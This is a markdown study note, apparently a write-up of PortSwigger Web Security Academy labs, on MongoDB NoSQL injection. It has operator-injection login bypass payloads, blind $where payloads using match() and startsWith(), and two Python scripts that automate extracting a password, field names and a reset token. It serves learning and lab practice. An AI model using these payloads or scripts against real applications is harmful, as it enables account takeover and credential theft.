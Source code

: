 ----------------

### NOSQL Injection

-----------------

- This form of injection is typical to non sql databases e.g mongodb, cypher and others.This will focus more on mongodb.

----------------

- Types-:
  - Syntax injection-: This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
  - Operators injection-:  This occurs when you can use NoSQL query operators to manipulate queries.


----------------  

- Operator injection-: NoSQL databases often use query operators, which provide ways to specify conditions that data must meet to be included in the query result.
- Examples-:

| **Operator** |      **Description**        |
|--------------|---------------------|
|$where | Matches documents that satisfy a JavaScript expression.|
|$ne | Matches all values that are not equal to a specified value|
|$in |Matches all of the values specified in an array. |
|$regex | Selects documents where values match a specified regular expression.|
| $nin  | not in an array |

- SOlving the lab with `$nin`-:

```json
{"username":{"$nin":["carlos","wiener"]},"password":{"$ne":""}}
```

------------------

### Exploiting syntax injection to extract data

-----------------

- In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.
- Brief Example-:
- Vulnerable code-:
```js
{"$where":"this.username == 'admin'"}
```
- Injecting it to dump sensitive data-:

```
admin' && this.password[0] == 'a' || 'a'=='b
```

- Oops,it is blind,let's exfil other info with `match` js function that relies on regex, you'll also notice that the last quotes is removed to match the quote in the statement-:

```
admin' && this.password.match('^a') && '1'=='1
```
- Also, you can use `startswith()` in some instances, works in a nice manner than match because of special characters usage and you just need to comment `'` with `\\'`.

```
admin' && this.password.startswith('a') && '1'=='1
```

- Dumping the password with startswith() payload + python

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string

#Replace host and cookie
#necessary variables
url: str = "https://0a0800e204bc44f580d6087f008e00af.web-security-academy.net"

async def main():
     headers = {"Cookie":"session=57tR4BdA7pjntM4pix5exS2nVIjtMSI3; Secure","User-Agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36Sec-Ch-Ua: \"Chromium\";v=\"140\", \"Not=A?Brand\";v=\"24\", \"Brave\";v=\"140\""}
     path = "/user/lookup"
     charset = string.ascii_letters + '1234567890' + string.punctuation 
     found_char = ""
     while True:
         for char in charset:
            special_chars = "\\'"
            if char in special_chars: char = '\\' + char
            payload = f"administrator'%26%26this.username=='administrator'%26%26this.password.startsWith('{found_char + char}')%26%26'1'=='1"
            result = requests.get(url + path + "?user="+ payload,headers=headers).text
            if len(result) ==  96:
               found_char += char
               print(f"[+] Found_char::{found_char}")
               break

if __name__ == "__main__":
    asyncio.run(main())
```

- 8 chars password-:

<img width="834" height="238" alt="image" src="https://github.com/user-attachments/assets/025a467d-7f10-40f3-bf24-1393ea568701" />

-----------------

### Extracting fields' names

----------------

- Payload-:

```js
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

- Lab's script-:

```python3
#! /usr/bin/env python3
import requests
import asyncio
import string
import itertools

url = "https://0abd006a037036f7804a6255003200ed.web-security-academy.net/login"
valid_word = "Account locked: please reset your password"
charset = "_" + string.digits + string.ascii_letters 

#FIltering chars that are special in js

async def filter_char(character: str):
     if character not in string.ascii_letters + string.digits + '!"#%&,-:;<=>@_~`': 
        return "\\" + character 
     else: 
        return character
# Finding object keys length
async def find_keysLength(index: int):
     for counter in range(80):
        payload = f"Object.keys(this)[{index}].length == {counter}"
        data = {"username":"carlos","password":{"$ne":""},"$where":payload}
        text = requests.post(url,json=data).text
        if valid_word in text:
            print(f"[+]Objectindex{index}::length:->{counter}")
            break
     return counter

async def dump_keysStrings():
    keys = []
    for counter in range(4,5):
        length = await find_keysLength(counter)
        keys.append("")
        for char_counter in range(length):
            pick_counter = counter - (counter + 1)
            for char in charset:
                char = await filter_char(char)
                payload = f"Object.keys(this)[{counter}].match('^{keys[pick_counter] + char}')"
                #print(payload)
                data = {"username":"carlos","password":{"$ne":""},"$where":payload}
                text = requests.post(url,json=data).text
                if valid_word in text:
                   keys[pick_counter] += char
                   print(f"[+] Key:index{counter}::Found Char:{keys[pick_counter]}")
                   break
            if len(keys[pick_counter]) ==  length:
                print(f"[+] Keys:{counter}'s field found::{keys[pick_counter]}")
                break
    return keys[-1]
async def dump_key(field: str) -> string:
    found_chars = ""
    while True:
        for char in charset:
            char = await filter_char(char)
            payload = f"(this.{field}).toString().match('^{found_chars + char}')"
            data = {"username":"carlos","password":{"$ne":""},"$where":payload}
            text = requests.post(url,json=data).text
            if valid_word in text:
                found_chars += char
                print(f"[+] Found chars::{found_chars}")
                break
        if len(found_chars) == 16:
            print(f"[+]Found token:: {found_chars}")
async def main():
    field =  await dump_keysStrings()
    await dump_key("resetPwdToken")
  
if __name__ == "__main__":
    asyncio.run(main())
```

- 
